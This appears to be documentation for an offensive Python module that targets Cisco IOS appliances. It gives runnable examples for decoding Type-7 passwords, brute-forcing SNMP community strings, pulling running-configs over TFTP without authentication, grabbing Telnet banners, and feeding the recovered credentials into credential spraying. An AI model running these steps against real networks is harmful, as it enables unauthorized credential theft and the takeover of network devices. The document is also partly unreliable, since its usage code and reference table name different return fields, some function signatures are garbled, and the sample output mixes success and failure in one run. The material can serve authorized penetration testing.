

# Appliance Configuration Secret Helpers

Decode Cisco IOS Type-7 XOR passwords, enumerate running-config and CDP neighbor data via raw BER-encoded SNMP GET requests, probe TFTP for unauthenticated running-config export, and grab Telnet banners: all from pure Python with no external dependencies.

---

## Why this exists

1. **Type-7 "encryption" provides no security and must be reported on sight.** IOS `service password-encryption` applies a static-key XOR cipher (the `_XLAT` table has been public since the 1990s) to VTY, console, and auxiliary line passwords. Every Type-7 value in a captured running-config decodes to plaintext in milliseconds. The decoder handles both regular enables and service-password-encrypted line passwords: the same XOR algorithm governs both. When a running-config appears in scope, decode every Type-7 value before any other analysis.

2. **SNMP v1 community strings on network appliances are frequently `public`/`private`.** A correctly guessed SNMP community string grants OID-level read or write access to the full device configuration: CDP neighbor table, sysDescr OS version, running-config via SNMP SET/TFTP. The SNMP helper constructs minimal hand-crafted BER frames, no third-party SNMP library required, and works reliably against both IOS and IOS-XE targets.

3. **TFTP running-config reads expose complete credentials without authentication.** Cisco IOS's `tftp-server` global command allows the device to serve configuration files to TFTP clients. When no `access-class` ACL is applied to the `tftp-server` statement, any host on the network can retrieve the running configuration: including Type-7 passwords, RADIUS/TACACS shared secrets, BGP neighbor passwords, and SNMP community strings. `probe_tftp_config()` sends a TFTP RRQ opcode 1 for `running-config` and returns the config text on success.

---

## How it works



### Key OIDs for Cisco appliances

| OID | Description |
|---|---|
| `1.3.6.1.2.1.1.1.0` | sysDescr: OS version and platform string |
| `1.3.6.1.2.1.1.3.0` | sysUpTime: ticks since last reboot |
| `1.3.6.1.2.1.1.5.0` | sysName: configured hostname |
| `1.3.6.1.2.1.4.21.1.1` | IP routing table first entry |
| `1.3.6.1.4.1.9.9.23.1.2.1.1.4` | CDP neighbor IP address table |
| `1.3.6.1.4.1.9.9.23.1.2.1.1.6` | CDP neighbor platform string |
| `1.3.6.1.4.1.9.2.1.58.0` | IOS `show version` string Cisco enterprise MIB |

---

## Usage

```python
from modules.ios_enum import decode_type7

# Decode a Type-7 value from running-config
encoded = "05080F1C2243"  # Example: found in `enable password 7 05080F1C2243`
plaintext = decode_type7(encoded)
print(f"Decoded: {plaintext!r}")   # → "cisco"

# Batch decode all Type-7 values from a captured running-config
import re

config_text = open('/fw/captured/running-config.txt').read()
type7_pattern = re.compile(r'password 7 ([0-9A-Fa-f]+)')
for match in type7_pattern.finditer(config_text):
    enc = match.group(1)
    dec = decode_type7(enc)
    print(f"  password 7 {enc}  →  {dec!r}")
```

---

## SNMP enumeration

```python
from modules.ios_enum import snmp_get

host = "192.168.1.1"

# Basic reachability and version
result = snmp_get(host, community="public", oid="1.3.6.1.2.1.1.1.0")
if result['responsive']:
    print(f"sysDescr: {result['values']}")

# CDP neighbor table
result = snmp_get(host, community="public", oid="1.3.6.1.4.1.9.9.23.1.2.1.1.6")
if result['responsive']:
    print(f"CDP neighbors: {result['values']}")

# Try common community strings
for community in ["public", "private", "cisco", "snmp", "network"]:
    result = snmp_get(host, community=community, oid="1.3.6.1.2.1.1.5.0")
    if result['responsive']:
        print(f"Community '{community}' valid — hostname: {result['values']}")
        break
```

---

## TFTP and Telnet probes

```python
from modules.ios_enum import probe_tftp_config, probe_telnet

host = "192.168.1.1"

# Attempt unauthenticated running-config pull
tftp = probe_tftp_config(host, filename='running-config')
if tftp.get('accessible'):
    print(f"Running-config retrieved ({tftp['bytes']} bytes):")
    print(tftp['content'][:2000])
    # Now decode all Type-7 values
    from modules.ios_enum import decode_type7
    import re
    for m in re.finditer(r'password 7 ([0-9A-Fa-f]+)', tftp['content']):
        print(f"  Decoded: {decode_type7(m.group(1))!r}")
else:
    print(f"TFTP blocked: {tftp.get('error', tftp.get('msg', 'unknown'))}")

# Banner and version via Telnet
telnet = probe_telnet(host)
if telnet['open']:
    print(f"Telnet banner: {telnet['banner'][:200]}")
    print(f"IOS version line: {telnet['ios_version']}")
```

---

## Example output

```
Decoded: cisco
Decoded: labpassword1

Community 'public' valid — hostname: ['CORP-CORE-01']
sysDescr: ['Cisco IOS Software, Version 15.7(3)M4, RELEASE SOFTWARE (fc2)
            Technical Support: http://www.cisco.com/techsupport']
CDP neighbors: ['Cisco 3750X', 'Cisco ASA 5505']

Running-config retrieved (8421 bytes):
  Decoded: 'N3tw0rk!'            (enable password 7)
  Decoded: 'SNMPcommunity1'      (snmp-server community encrypted)
  Decoded: 'TacacsKey99'         (tacacs-server key encrypted)

TFTP blocked: TFTP ERROR 1 — File not found
```

---

## False positives

**Type-7 decode produces garbage on malformed input.** `decode_type7()` expects an even-length hex string with a 2-digit decimal seed prefix. Malformed input odd hex length, non-hex characters, seed ≥ 53 silently returns an empty string. Validate that extracted Type-7 values match `r'^[0-9]{2}[0-9A-Fa-f]+$'` before passing to the decoder.

**SNMP timeouts on ACL-filtered hosts.** `snmp_get()` returns `{'responsive': False, 'error': 'timed out'}` for both ACL-filtered and genuinely unreachable hosts, there is no distinction. An SNMP ACL that drops packets produces the same result as a host that does not have SNMP enabled. Do not conclude a community string is invalid from a single timeout; retry from a different source address if ACL filtering is suspected.

**TFTP mode string must be lowercase.** The TFTP RRQ payload encodes the transfer mode as `netascii`. Some stricter TFTP server implementations reject non-canonical mode strings. The `probe_tftp_config()` implementation uses lowercase `netascii`, which is correct per RFC 1350.

---

## Pipeline position

**Before this module:** Obtain the target IP from network enumeration, `tiptoe` infrastructure scan, or VDT target scope.

**After this module:** Decoded Type-7 passwords feed into credential-spray testing via `ios_enum.IosEnumerator`. SNMP-recovered CDP neighbor IPs expand the target scope. TFTP-recovered running-configs warrant full manual review: BGP neighbor passwords, TACACS/RADIUS shared secrets, AAA server addresses, and ACL rules.

---

## Reading output

Each function returns a string or dict, not finding objects.

`decode_type7(enc)` returns the plaintext password string directly Cisco IOS Type 7 XOR is always reversible.

`snmp_gethost, community, oid` returns a dict:

| Field | Content |
|:---|:---|
| `responsive` | `True` if the host responded to the SNMP GET |
| `values` | Parsed OID values from the response, or `None` |
| `raw` | First 200 hex chars of the raw UDP response |
| `error` | Error string if `responsive == False` |

`probe_tftp_confighost, filename` returns a dict with `success: bool`, `data: bytes`, `error: str`.

---

## See also

- [IOS Enum](ios-enum.md): full IOS/IOS-XE enumeration: REST API, AAA probe, privilege escalation check
- [NX-OS Enum](nxos-enum.md): Cisco NX-OS equivalent with NX-API and POAP probe
- [API Authentication and Token Checks](api-authentication-and-token-checks.md): binary RE analog for auth bypass in IOS firmware
